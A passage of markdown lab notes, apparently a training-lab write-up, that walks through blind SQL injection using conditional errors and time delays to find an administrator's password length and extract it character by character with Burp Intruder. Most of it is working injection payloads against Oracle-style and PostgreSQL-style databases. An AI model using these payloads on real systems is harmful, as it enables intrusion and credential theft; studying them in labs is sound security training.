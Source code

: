- - - - - - - - - - - - - - - - - - - -
- - - - - - - - - - - - - - - - - - - -

4. Determine length of password

`' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || '`
-> 200 response at 50 -> length of password is less than 50
-> 20 characters
+ You can use **BURP INTRUDER** to probe number after `LENGTH(password)>`

- - - - - - - - - - - - - - - - - - - -
- - - - - - - - - - - - - - - - - - - -

5. Output the administrator password

`' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,$1$,1)='$a$') || '`
-> w is not the first character of the password
+ You can use **BURP CLUSTER BOMB** for this
 - For second argument in `substr`: `substr(password,$1$,1)`
 - For letter looked: `='$a$'`

-------------------------------------------------------------
-------------------------------------------------------------

### 13. Blind SQL: With `time delays`
+ Try all the differnt time based formats you see in cheat sheet 

[This one worked]: ' || (SELECT sleep(10))--

-------------------------------------------------------------
-------------------------------------------------------------

### 14. Blind SQL: With `time delays` and `information retrieval`

1. Confirm that the parameter is vulnerable to SQLi
`' || pg_sleep(10)--`

2. Confirm that the users table exists in the database
`' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--`
+ If `1=0` successfully works, then `pg_sleep(10)`
 - Otherwise `pg_sleep(-1)`
 - May try `(1=1)` too
 
`' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--`
+ If wait 10 seconds, then `administrator` exists

3. Enumerate the password length
`' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--`
-> length of password is 20 characters
+ You can use **BURP INTRUDER** to probe number after `LENGTH(password)>`
 - Look at **Response received** in Burp


[Final Payload]: ' and (select 'x' from users LIMIT 1)='x'--
[Final Payload]: ' and (select username from users where username='administrator')='administrator'--